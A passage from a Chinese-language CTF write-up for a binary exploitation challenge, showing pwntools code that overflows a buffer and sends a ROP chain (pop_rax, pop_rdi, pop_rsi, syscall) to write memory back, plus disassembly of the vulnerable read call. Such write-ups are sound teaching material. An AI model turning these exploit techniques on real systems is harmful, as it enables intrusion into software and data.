     r.send(payload.ljust(0x100, b'A'))
    print("send payload")
    r.recvuntil(b"You get nothing QQ")
    ```

7. 另外有發現，這次的 read 其實可以 pop rax 指定要寫的位置，不受限 rbp。隨然沒用到。
    ```
    4013d4:	48 8d 45 90          	lea    rax,[rbp-0x70]
    4013d8:	ba 00 01 00 00       	mov    edx,0x100
    4013dd:	48 89 c6             	mov    rsi,rax
    4013e0:	bf 00 00 00 00       	mov    edi,0x0
    4013e5:	e8 e6 fc ff ff       	call   4010d0 <read@plt>
    ```
8. 最後 write 回來。
    ```python
    payload = b'A' * (8 * 14)
    rop = flat([bss+0x200,
                pop_rax, 0x1,
                pop_rdi, 1,
                pop_rsi, bss - 0x200,
                pop_rdx_rbx, 0x100, 0,
                syscall,
                ])
    payload += rop
    r.send(payload.ljust(0x100, b'A'))
    print("send payload")
    r.interactive()
    ```

**取得 flag 的畫面：**
![Alt text](image/jackpot_flag.png)
